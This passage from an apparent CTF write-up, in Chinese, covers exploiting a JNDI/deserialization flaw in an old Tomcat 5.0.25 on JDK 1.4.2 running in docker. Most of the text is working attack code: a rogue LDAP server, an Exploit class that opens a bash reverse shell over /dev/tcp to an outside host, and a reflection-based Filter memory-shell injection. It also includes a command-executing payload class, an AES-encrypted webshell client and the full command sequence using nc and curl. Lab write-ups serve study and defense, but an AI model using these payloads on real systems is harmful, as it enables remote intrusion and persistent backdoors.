    elif val < 0x8000: return tlv(0x02, struct.pack('>H', val))
    else: return tlv(0x02, struct.pack('>I', val))
def octet_string(s):
    if isinstance(s, str): s = s.encode()
    return tlv(0x04, s)
def enumerated(val): return tlv(0x0a, bytes([val]))
def set_of(*items): return tlv(0x31, b''.join(items))
def ldap_message(msg_id, protocol_op): return seq(integer(msg_id), protocol_op)

def bind_response(msg_id):
    resp = enumerated(0) + octet_string("") + octet_string("")
    return ldap_message(msg_id, tlv(0x61, resp))

def search_result_entry(msg_id, dn, attributes):
    attrs = b''
    for attr_type, attr_vals in attributes:
        vals = set_of(*[octet_string(v) for v in attr_vals])
        attrs += seq(octet_string(attr_type), vals)
    entry = octet_string(dn) + seq(attrs)
    return ldap_message(msg_id, tlv(0x64, entry))

def search_result_done(msg_id):
    done = enumerated(0) + octet_string("") + octet_string("")
    return ldap_message(msg_id, tlv(0x65, done))

def parse_message_id(data):
    if len(data) < 2 or data[0] != 0x30: return 1
    idx = 1
    if data[idx] & 0x80:
        idx += 1 + (data[idx] & 0x7f)
    else:
        idx += 1
    if data[idx] != 0x02: return 1
    idx += 1
    int_len = data[idx]
    idx += 1
    return int.from_bytes(data[idx:idx+int_len], 'big')

def handle_client(conn, codebase, factory_class):
    try:
        data = conn.recv(4096)
        msg_id = parse_message_id(data)
        conn.sendall(bind_response(msg_id))
        data = conn.recv(4096)
        msg_id = parse_message_id(data)
        attributes = [
            ("javaClassName", ["java.lang.String"]),
            ("javaCodeBase", [codebase]),
            ("objectClass", ["javaNamingReference", "top"]),
            ("javaFactory", [factory_class]),
        ]
        conn.sendall(search_result_entry(msg_id, "dc=example,dc=com", attributes))
        conn.sendall(search_result_done(msg_id))
    finally:
        conn.close()

def main():
    port = int(sys.argv[1]) if len(sys.argv) > 1 else 1389
    codebase = sys.argv[2] if len(sys.argv) > 2 else "http://host.docker.internal:8888/"
    factory_class = sys.argv[3] if len(sys.argv) > 3 else "Exploit"
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(("0.0.0.0", port))
    sock.listen(5)
    while True:
        conn, addr = sock.accept()
        handle_client(conn, codebase, factory_class)

if __name__ == "__main__":
    main()
```

### 内存马打入（失败）

目标是植入 Godzilla 内存马。最先考虑的是 Agent 型内存马，需要 `Instrumentation.addTransformer` 劫持类加载，但 JDK 1.4.2 没有 `java.lang.instrument` 包，这个包是 JDK 1.5 引入的。也没有 `javax.management`（JMX 同样是 1.5），不能通过 MBeanServer 拿 Tomcat 内部对象。所以 Agent 内存马直接排除，那就做 Filter 型。

Filter 型内存马需要拿到 `StandardContext`，注册 FilterDef、FilterMap 和 ApplicationFilterConfig。

第一反应是 `ServerFactory.getServer()`，但 `Exploit.class` 被 JNDI 加载后报了 `ClassNotFoundException: org.apache.catalina.ServerFactory`这个问题是因为在 `ObjectServlet.doPost` 把线程上下文 ClassLoader 切成了 `appClassLoader`，JNDI 的 `NamingManager.getObjectInstance()` 也用这个 ClassLoader 加载远程类。

打印 ClassLoader 链：

```
URLClassLoader (appClassLoader)
  → WEB-INF/lib/*.jar + WEB-INF/classes/
  ServerFactory not found
AppClassLoader
  → tools.jar, bootstrap.jar, commons-logging-api.jar
  ServerFactory not found
ExtClassLoader
  → jre/lib/ext/*.jar
  ServerFactory not found
```

`appClassLoader` 的父链是 `AppClassLoader → ExtClassLoader → BootstrapClassLoader`，不经过 `WebappClassLoader`、`CommonClassLoader`、`ServerClassLoader` 中的任何一个。`catalina.jar` 在 `/opt/tomcat/server/lib/` 下，只有 `ServerClassLoader` 能加载。

试过遍历线程找 `WebappClassLoader` 没成功，试过通过 `WebappClassLoader.resources`（ProxyDirContext）的字段间接拿 `StandardContext`但是`ProxyDirContext` 里没有 `StandardContext` 的引用。

最终找到 `Bootstrap`，`org.apache.catalina.startup.Bootstrap` 在 `bootstrap.jar` 里，`bootstrap.jar` 在 `AppClassLoader` 的 classpath 里：

```java
public final class Bootstrap {
    private static Bootstrap daemon;
    private Object catalinaDaemon;
    protected ClassLoader commonLoader;
    protected ClassLoader catalinaLoader;  // 就是 ServerClassLoader
    protected ClassLoader sharedLoader;
}
```

`daemon` 是静态单例，`catalinaLoader` 就是 `ServerClassLoader`。反射拿到就行：

```java
Class bootClass = Class.forName("org.apache.catalina.startup.Bootstrap");
Field daemonField = bootClass.getDeclaredField("daemon");
daemonField.setAccessible(true);
Object daemon = daemonField.get(null);

Field catLoaderField = bootClass.getDeclaredField("catalinaLoader");
catLoaderField.setAccessible(true);
ClassLoader serverCL = (ClassLoader) catLoaderField.get(daemon);
```

拿到 `serverCL` 后就能加载 `ServerFactory`，`getServer()` 拿 Server，遍历 `findServices` → Engine → Host → Context 找到 path 为空的 `StandardContext`。

下一个坑是 `GodzillaFilter` 的加载。`GodzillaFilter implements Filter`，`Filter` 接口在 `servlet-api.jar` 里，`servlet-api.jar` 在 `/opt/tomcat/common/lib/` 下，由 `CommonClassLoader` 加载，所以也不行。

解决办法是 `new URLClassLoader(urls, serverCL)`，父为 `ServerClassLoader`。`ServerClassLoader` 的父是 `CommonClassLoader`，能加载 `Filter` 接口。这样 `GodzillaFilter` 的 `Filter` 和 Tomcat 内部的是同一个 Class 对象，否则 `ApplicationFilterConfig.filter` 字段的类型和实例类型不匹配，`Field.set` 会抛 `IllegalArgumentException`。

最后一个坑是 `ApplicationFilterConfig` 的构造器。它接受 `Context` 和 `FilterDef` 参数，内部调 `setFilterDef`，后者会尝试通过 `filterClass` 反射创建 Filter 实例：

```java
void setFilterDef(FilterDef filterDef) throws ... {
    this.filterDef = filterDef;
    if (filterDef != null) {
        String filterClass = filterDef.getFilterClass();
        Class clazz = Class.forName(filterClass);
        this.filter = (Filter) clazz.newInstance();
    }
}
```

`filterClass` 设成 `"GodzillaFilter"`，`Class.forName` 在 `ServerClassLoader` 里找不到这个类，抛出`ClassNotFoundException`，用 `Unsafe.allocateInstance()` 绕过构造器，直接分配对象再反射设字段就可以了。

到这内存马都打进去了，而且用自己编译的 class（version 48）AES 加密 POST 过去能正常执行返回 `GODZILLA_OK`。但死活连不上。
反编译 Godzilla jar 包里的 payload class，发现核心问题是 **class version 不兼容**：

```
payload.classs     major version 45 (JDK 1.1)  ← 能加载但不是客户端直接发送的
DynamicUpdateClass  major version 52 (JDK 8)   ← 客户端动态生成的子类
JavaShell           major version 52 (JDK 8)
JavaShellEx         major version 52 (JDK 8)
```

> Godzilla 客户端发送的不是 `payload.classs`，而是动态生成的子类（version 52），子类的 `equals(Object[])` 会拆解数组分别调用 `payload` 的 `handle(response)` 和 `handle(request)`。JDK 1.4.2 的 `defineClass` 加载 version 52 的 class 直接抛 `UnsupportedClassVersionError`，在 `defineClass` 之前把 major version 从 52 改成 48，同时 `payload.classs` 内部调用了 `String.format()`（JDK 1.5+），写了字节码补丁把常量池里的 `java/lang/String.format` 方法引用替换成自定义的 `FormatHelper.format`。还把 `payload.classs` 放到 HTTP 服务上让动态子类能加载父类。
> 结果就是，降低 version 后 `defineClass` 不报错了，`payload.classs` 也能加载执行。但 `payload.classs` 的 `handle` 方法通过 `supportClass(obj, "%s.servlet.http.HttpServletRequest")` 检查传入对象类型，`Object[]` 不匹配任何类型，`servletRequest` 没有被设置，`run()` 从 `parameterMap` 取 `methodName` 拿到 null，返回 `"method is null"`。

所以还是选择反射 shell，直接用 `Runtime.exec(String[])` 就行，Exploit 通过 JNDI 加载后直接执行反弹命令

```java
import java.util.Hashtable;
import javax.naming.*;
import javax.naming.spi.ObjectFactory;

public class Exploit implements ObjectFactory {

    public Object getObjectInstance(Object obj, Name name, Context ctx, Hashtable env) throws Exception {
        String ip = "host.docker.internal";
        int port = 6666;
        String[] cmd = {"/bin/bash", "-c", "bash -i >& /dev/tcp/" + ip + "/" + port + " 0>&1"};
        Runtime.getRuntime().exec(cmd);
        return null;
    }
}
```


### 编译与利用

编译用 JDK 7，通过 bootclasspath 指定从容器提取的 rt.jar 和 jce.jar。

QEMU 模拟下容器内 `javac` 会 OOM killed，所以编译在宿主机上做，只把 PayloadGenerator.class 拷进容器跑。

```bash
JDK7=/Library/Java/JavaVirtualMachines/jdk1.7.0_21.jdk/Contents/Home

$JDK7/bin/javac -source 1.4 -target 1.4 \
  -bootclasspath rt.jar:jce.jar \
  Exploit.java

$JDK7/bin/javac -source 1.4 -target 1.4 \
  -bootclasspath rt.jar:jce.jar \
  -classpath commons-beanutils.jar:commons-collections.jar:commons-logging-1.0.4.jar:log4j-1.2.8.jar \
  PayloadGenerator.java


docker cp PayloadGenerator.class oldsystem:/tmp/
docker exec oldsystem sh -c 'cd /tmp && /opt/jdk/bin/java \
  -classpath .:/opt/tomcat/webapps/ROOT/WEB-INF/lib/commons-beanutils.jar:\
/opt/tomcat/webapps/ROOT/WEB-INF/lib/commons-collections.jar:\
/opt/tomcat/webapps/ROOT/WEB-INF/lib/commons-logging-1.0.4.jar:\
/opt/tomcat/webapps/ROOT/WEB-INF/lib/log4j-1.2.8.jar \
  PayloadGenerator'
docker cp oldsystem:/tmp/object.ser .


cd exploit/
python3 -m http.server 8888 &
# python3 ldap_server.py LDAPort codebase factoryClassName
python3 ldap_server.py 1389 "http://host.docker.internal:8888/" "Exploit" &
nc -lvn 6666
curl http://localhost:28080/object --data-binary @object.ser
```



### 内存马再尝试

回头想起来有一个项目他的做法和传统做法不同，虽然我们还是不能链接，但是我们自己写个 client 也完全可以实现管理。
AgentMemshell 的 vybeX 协议 + version 48 编译的 equals 分派 payload + 自研 Python 客户端

 vybeX.AuthAgentFilterChain 的协议，payload 不依赖 Godzilla 的 `handle()` 约定，只重写一个 `equals(Object)` 做 instanceof 分派。协议如下：

```
User-Agent: avZplwxE
POST /?RIZpWiOg=base64(AES/ECB/PKCS5(数据, key=0d30740ba99db1d6))
首次请求   → defineClass payload 类，空响应
之后请求   → 命令数据，响应 = 4844DA5E7FDDFEF9 + base64(AES(输出)) + 6B205FFF28E0337E
```

服务端把 vybeX 的 `equals(Object[])` 约定内联进 `Filter.doFilter`（`memshell/GodzillaFilter.java`，含 base64 的 `java.util.Base64`→`sun.misc.BASE64Decoder` 回退、无 `String.contains` 等 JDK 1.4 兼容改造）。payload 是 `memshell/Pwn.java`：

```java
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.io.PrintWriter;
import javax.servlet.http.HttpServletRequest;

/*
 * Payload class defined in the memshell on demand (first Godzilla request).
 * Compiled with -source 1.4 -target 1.4 (class version 48) so JDK 1.4.2's
 * defineClass accepts it. Dispatches via equals(Object) instanceof checks,
 * executes the command in toString() and writes output to the BAOS passed in.
 */
public class Pwn {
    private byte[] data;
    private ByteArrayOutputStream out;
    private HttpServletRequest request;

    public boolean equals(Object obj) {
        if (obj instanceof ByteArrayOutputStream) {
            out = (ByteArrayOutputStream) obj;
            return true;
        }
        if (obj instanceof HttpServletRequest) {
            request = (HttpServletRequest) obj;
            return true;
        }
        if (obj instanceof byte[]) {
            data = (byte[]) obj;
            return true;
        }
        return false;
    }

    public String toString() {
        try {
            Process proc = Runtime.getRuntime().exec(new String[]{"/bin/sh", "-c", new String(data, "UTF-8")});
            InputStream in = proc.getInputStream();
            ByteArrayOutputStream b = new ByteArrayOutputStream();
            byte[] buf = new byte[4096];
            int n;
            while ((n = in.read(buf)) > 0) {
                b.write(buf, 0, n);
            }
            in.close();
            proc.waitFor();
            out.write(b.toByteArray());
        } catch (Exception e) {
            try {
                ByteArrayOutputStream eb = new ByteArrayOutputStream();
                e.printStackTrace(new PrintWriter(eb));
                out.write(eb.toByteArray());
            } catch (Exception ignored) {
            }
        }
        return "";
    }
}
```

编译还是用容器内的 jdk，用 `javac -source 1.4 -target 1.4` 编译成 class version 48，JDK 1.4.2 的 `defineClass` 直接接受。

客户端用 pycryptodome 写

```python
#!/usr/bin/env python3
import base64
import os
import sys
import requests
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad

KEY = b"0d30740ba99db1d6"
PREFIX = "4844DA5E7FDDFEF9"
SUFFIX = "6B205FFF28E0337E"

TARGET = sys.argv[1].rstrip("/") + "/"
CMD = sys.argv[2] if len(sys.argv) > 2 else "/readflag"
PAYLOAD = sys.argv[3] if len(sys.argv) > 3 else os.path.join(
    os.path.dirname(os.path.abspath(__file__)), "classes", "Pwn.class")


def encrypt(data):
    return AES.new(KEY, AES.MODE_ECB).encrypt(pad(data, 16))


def decrypt(data):
    return unpad(AES.new(KEY, AES.MODE_ECB).decrypt(data), 16)


def send(data):
    return requests.post(TARGET, params={"RIZpWiOg": base64.b64encode(encrypt(data)).decode()},
                         headers={"User-Agent": "avZplwxE"}, timeout=15)


send(open(PAYLOAD, "rb").read())
r = send(CMD.encode())
body = r.content
assert body.startswith(PREFIX.encode()) and body.endswith(SUFFIX.encode())
print(decrypt(base64.b64decode(body[len(PREFIX):len(body) - len(SUFFIX)])).decode(errors="replace"))
```

测试复现`StandardContext.filterMaps` 在 Tomcat 5.0.25 里是 `FilterMap[]` 数组而不是 `ArrayList`，直接 `((List) field.get(context)).add(...)` 抛 `ClassCastException`。
要扩容数组后 `set` 回去

```java
Object[] oldMaps = (Object[]) fMaps.get(context);
Object[] newMaps = (Object[]) java.lang.reflect.Array.newInstance(
        oldMaps.getClass().getComponentType(), oldMaps.length + 1);
System.arraycopy(oldMaps, 0, newMaps, 0, oldMaps.length);
newMaps[oldMaps.length] = filterMap;
fMaps.set(context, newMaps);
```

执行命令

```bash
JDK8=/Library/Java/JavaVirtualMachines/jdk1.8.0_66.jdk/Contents/Home


unzip -o docker/jakarta-tomcat-5.0.25.zip "jakarta-tomcat-5.0.25/common/lib/servlet-api.jar" -d /tmp/
$JDK8/bin/javac -source 1.4 -target 1.4 \
  -cp /tmp/jakarta-tomcat-5.0.25/common/lib/servlet-api.jar \
  -d memshell/classes memshell/GodzillaFilter.java memshell/Pwn.java memshell/Exploit.java


cd memshell/classes && python3 -m http.server 8888
python3 exploit/ldap_server.py 1389 "http://host.docker.internal:8888/" "Exploit" &
curl http://localhost:28080/object --data-binary @exploit/object.ser

python3 memshell/godzilla_client.py http://127.0.0.1:28080/ "cat /flag"
```





> https://github.com/FightingLzn9/AgentMemshell/releases/tag/v1

